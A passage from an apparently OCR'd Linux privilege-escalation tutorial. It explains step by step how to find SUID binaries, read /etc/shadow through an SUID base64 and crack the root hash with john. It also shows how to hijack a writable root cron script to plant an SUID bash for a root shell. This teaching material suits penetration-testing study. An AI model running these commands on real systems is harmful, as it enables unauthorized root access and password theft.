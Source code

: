 **Word-by-Word Explanation**:
- `find / -perm -u=s -type f 2>/dev/null`:
  - `find`: Searches for files.
  - `/`: Starts search from the root directory.
  - `-perm -u=s`: Matches files with the SUID bit set.
  - `-type f`: Limits to regular files.
  - `2>/dev/null`: Redirects error messages to `/dev/null`.
  - *Purpose*: Lists SUID binaries, finding `/usr/bin/base64`.
- `/usr/bin/base64 /etc/shadow | base64 -d`:
  - `/usr/bin/base64`: Runs the `base64` binary, which has SUID and runs as root.
  - `/etc/shadow`: The target file (password hashes).
  - `|`: Pipes output to the next command.
  - `base64 -d`: Decodes base64-encoded text.
  - *Purpose*: Uses `base64`’s root privileges to read `/etc/shadow`, then decodes the output.
- `echo "root:$6$..." > hash.txt`:
  - `echo`: Prints text.
  - `"root:$6$..."`: The root user’s hash from `/etc/shadow`.
  - `>`: Redirects output to a file.
  - `hash.txt`: The output file.
  - *Purpose*: Saves the hash for cracking.
- `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`:
  - `john`: Password cracker.
  - `--wordlist=...`: Uses the `rockyou.txt` wordlist.
  - `hash.txt`: The file with the hash.
  - *Purpose*: Cracks the hash, revealing the password (`password123`).

**Note**: Use GTFOBins to find exploitable SUID binaries. Not all SUID binaries are vulnerable.

---

### 4. Cron Jobs

**Description**: Cron jobs are scheduled tasks that run automatically, often as root. If a cron job uses a writable script, you can modify it to execute malicious code.

**Example**:
```bash
# Check cron jobs
cat /etc/crontab
# Output: * * * * * root /tmp/backup.sh

# Check if backup.sh is writable
ls -l /tmp/backup.sh
# Output: -rwxrwxrwx 1 root root 50 backup.sh

# Modify backup.sh to spawn a root shell
echo '#!/bin/bash' > /tmp/backup.sh
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /tmp/backup.sh
chmod +x /tmp/backup.sh

# Wait 1 minute, then run the new binary
/tmp/rootbash -p
# Spawns root shell
whoami
# Output: root
```
